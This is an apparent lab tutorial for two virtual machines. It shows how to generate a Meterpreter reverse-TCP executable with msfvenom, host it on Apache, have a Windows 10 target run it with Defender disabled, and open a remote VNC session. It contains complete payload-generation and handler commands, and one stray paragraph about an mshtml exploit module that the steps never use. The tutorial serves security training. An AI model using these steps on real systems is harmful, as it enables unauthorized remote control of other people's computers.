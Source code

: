 # Exploiting Client Side Vulnerabilities and Establishing a VNC session
Attackers use client-side vulnerabilities to exploit unpatched software, thereby attaining access to the machine on which the software is installed.

VNC enables attackers to remotely access and control computers targeted from another computer or mobile device, wherever they are in the world. At the same time, it is also used by administrator and organizations throughout every industry sector for a range of different scenarios and use cases, including providing IT desktop support to colleagues and friends, and accessing systems and services on the move.

### Objectives
* How to exploit client-side vulnerabilities and establish a VNC session.

### Requisites
* Kali Linux virtual machine (Attacker).
* Windows 10 virtual machine (Target).


## Launch Metasploit Framework

Launch Kali Linux and open the Terminal window and type:

`msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=10.0.2.42 LPORT=444 -o /root/Desktop/Test.exe`

**Note**: LHOST is the IP address of your Kali machine.

This command will generate Test.exe, a malicious file on Desktop as shown in below:

```
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
Saved as: /root/Desktop/Test.exe
```

You can also try this by using the `msfconsole`. 

To check the malicious file that you created, go to https://www.virustotal.com and upload the file.

![VirusTotal](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/06ada511ea568155b68bc18ea6255fe31007d217/virustotal.png)
VirusTotal aggregates many antivirus products and online scan engines to check for viruses that the user's own antivirus may have missed, or to verify against any false positives.

## Share the malicious file on target
Now create a directory to share this file with the target machine provide the permissions and copy the file from Desktop to shared location:

`mkdir /var/www/html/share/`<br>
`chmod -R 755 /var/www/html/share/`<br>
`chown -R www-data:www-data /var/www/html/share/`

Now copy the malicious file to the shared location:

`cp /root/Desktop/Test.exe /var/www/html/share/`

Next, start the apache service:

`service apache2 start`


Open a new terminal window and type `msfconsole` to launch Metasploit Framework.

Use the `multi/handler` to capture the session.

![msfconsole](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/3f818aa7902d7d0c864577c885b2a16c1b5caa33/msfconsole.png)

In msfconsole:
1. `use multi/handler`
2. `set payload windows/meterpreter/reverse_tcp`
3. set the `LHOST` to your Kali IP address and `LPORT` to 444
4. `run` the exploit

#### Reverse TCP
A reverse shell (also known as a connect-back) is the exact opposite: it requires the attacker to set up a listener first on his box, the target machine acts as a client connecting to that listener, and then finally the attacker receives the shell.

This module exploits memory corruption vulnerability within Microsoft's HTML engine (mshtml). When parsing an HTML page containing a recursive CSS import, a C++ object is deleted and later reused.

## On Windows machine
Remember to deactivate all Windows Defender parameters.

Launch the browser and type the IP address of the Kali machine that are running apache webserver and download the **Test.exe**. 

In my case is `http://10.0.2.42/share`

![Test.Exe](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/48fe2ec77ebde90c0febb208704e4172b60b4428/testexe.png)

Double click  **Test.exe**.<br>
You will get a Security Warning window, click **run**.

![Sec Warning](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/87089f69512685222b66d10ab10832f0382538f9/securityWarningWin.png)

## Meterpreter 
Switch to Kali Linux machine and check if there is any session that are opened in the Meterpreter Shell as shown below:

![meterpreter](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/87089f69512685222b66d10ab10832f0382538f9/meterpreter.png)

Meterpreter is a Metasploit attack payload that provides an interactive shell from which an attacker can explore the target machine and execute code.

Useful commands:
https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/

About Meterpreter:
https://doubleoctopus.com/security-wiki/threats-and-tools/meterpreter/

## Remote View in Kali Linux
Now, you can create a VNC session on Windows 10 machine remotely by typing:

`run vnc`

This command will open a VNC session of the Target's machine as shown below:

![vnc](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/78278f30571b9988b108c92defcd91134886c404/vnc.png)

